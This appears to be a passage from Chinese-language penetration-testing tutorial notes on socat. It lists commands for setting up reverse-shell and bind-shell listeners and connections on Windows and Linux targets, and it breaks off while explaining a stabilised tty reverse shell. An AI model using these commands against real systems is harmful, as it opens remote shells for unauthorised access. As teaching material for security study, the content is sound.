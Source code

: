 ## Socat工具

Socat 在某些方面与 netcat 相似，但在其他许多方面有根本不同。理解socat 的最简单方法是把它当做一个两点之间的连接器。这两个点实际上可以是一个监听端口和键盘，也可以是一个监听端口和一个文件，或者可以是两个监听端口，而socat 所做的只是提供两点之间的链接。

让我们再次从反向 shell 开始。

**Reverse Shells（反向shell）**

如前所述，socat 的语法比 netcat 的语法难得多，下面是在socat 中设置反向 shell 监听器的基本语法:

```shell
socat TCP-L:<port> -
```

在socat中，这需要获取两个点(一个监听端口和一个标准输入)并将它们连接在一起，如此建立的 shell 是不稳定的，但它可以在 Linux 或 Windows 上工作，相当于Netcat中的 `nc -lvnp <port>`.

在Windows操作系统的目标机上，我们使用这个命令来连接攻击机:

```powershell
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
```

“pipes”选项用于强制 powershell (或 cmd.exe)使用 Unix 风格的标准输入和输出形式。

在Linux系统的目标机上，使用以下命令来连接攻击机：

```shell
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"
```

**Bind Shells（绑定shell）**

在 Linux 目标上，我们将使用以下命令设置监听器:

```shell
socat TCP-L:<PORT> EXEC:"bash -li"
```

在 Windows 目标上，我们将使用以下命令设置监听器:

```powershell
socat TCP-L:<PORT> EXEC:powershell.exe,pipes
```

我们使用" pipes "参数来连接 Unix 和 Windows 在 CLI （命令行）环境中处理输入和输出的方式。

不管目标是什么，我们在攻击机器上使用以下命令来连接到 正在目标机上等待的监听器：

```
socat TCP:<TARGET-IP>:<TARGET-PORT> -
```

现在让我们看看 Socat 更强大的用途之一：建立完全稳定的 Linux tty 反向 shell。这仅在目标是 Linux 时有效，会建立一个更稳定的反向shell。

如前所述，socat 是一个非常通用的工具，以下技巧可能是其最有用的应用之一，这是新的监听器设置语法：

```shell
socat TCP-L:<port> FILE:`tty`,raw,echo=0
```

让我们分析此命令，像往常一样，我们将两个点连接在一起，但是在这里的点是监听端口和文件。

